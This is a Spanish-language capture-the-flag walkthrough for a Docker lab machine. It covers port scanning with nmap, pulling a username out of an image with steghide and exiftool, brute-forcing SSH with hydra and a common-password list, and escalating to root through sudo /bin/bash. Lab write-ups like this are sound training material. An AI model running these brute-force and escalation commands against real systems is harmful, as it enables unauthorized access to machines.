 ```yaml
---
Maquina: BorazuwarahCTF
SO: Linux
Explotación: Análisis de imágenes
Escala_privs: Permisos sudo
Dificultad: Muy fácil
tags:
  - maquina
  - fuerza_bruta
  - analisis_imagen
  - linux
---
```

## Reconocimiento

1. **Explorar los puerto abiertos del docker**: 

```bash 
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2
```

![[Pasted image 20241019153105.png]]

2. **Ver la pagina web ubicada en el puerto 80**:

![[Pasted image 20241019153217.png]]

3. **Vamos a descargar la imagen y pasar una herramienta de análisis de la imagen**:

```bash 
steghide extract -sf imagen.jpeg 
```

![[Pasted image 20241019153408.png]]

Como se puede apreciar, la herramienta ha encontrado un archivo dentro de la propia imagen y el archivo contiene lo siguiente:

![[Pasted image 20241019153524.png]]

Así que vamos a intentar revisar mejor la imagen con otra herramienta:

```bash 
exiftool imagen.jpeg 
```

![[Pasted image 20241019153620.png]]

Aquí encontramos un nombre de usuario con lo que podemos pasar a intentar acceder al SSH mediante fuerza bruta.

## Explotación:

4. **Acceso al SSH por Fuerza Bruta**:

Con el usuario borazuwarah, vamos a intentar hacer un ataque de hydra para poder acceder al SSH

```bash 
hydra -l borazuwarah -P /home/alejandro/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt  ssh://172.17.0.2 
```

![[Pasted image 20241019154043.png]]

Listo, ya sabemos la contraseña del usuario borazuwarah -> 123456

![[Pasted image 20241019154520.png]]

Una vez dentro ya podemos pasar a la escala de privilegios.

5. **Escala de privilegios**:

Para ver los permisos que tenemos con el comando sudo podemos ejecutar:

```bash 
sudo -l
```

![[Pasted image 20241019154627.png]]

Como podemos apreciar se puede ejecutar /bin/bash como sudo.... Así que vamos a ejecutarlo.

```bash 
sudo /bin/bash
```

![[Pasted image 20241019154727.png]]